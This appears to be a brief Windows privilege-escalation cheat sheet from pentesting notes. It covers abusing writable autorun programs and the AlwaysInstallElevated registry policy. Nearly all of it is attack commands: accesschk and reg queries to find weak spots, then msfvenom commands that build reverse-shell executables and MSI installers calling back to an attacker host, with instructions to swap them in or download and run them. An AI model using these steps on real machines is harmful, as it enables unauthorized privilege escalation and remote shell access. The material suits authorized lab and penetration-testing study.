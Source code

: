 # Registry
## Autorun
* C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe -> Look for strange programs
* C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\PATH\PROGRAM"
If you can Read or write, try to create a file with the same name but with reverse shell content
* msfvenom -p windows/shell/reverse_tcp lhost X.X.X.X lport 443 -f exe -o program.exe
Then wait a few seconds or access into the other user and you'll get your shell
## AlwaysInstallElevated
* reg query HKLM\Software\Policies\Microsoft\Windows\Installer -> See if “AlwaysInstallElevated” value is 1.
* reg query HKLM\Software\Policies\Microsoft\Windows\Installer -> SEE “AlwaysInstallElevated” value is 1.
* msfvenom -p windows/X64/shell_reverse_tcp lhost [Kali VM IP Address] lport 443 -f msi -o setup.msi
DOWNLOAD AND EXECUTE
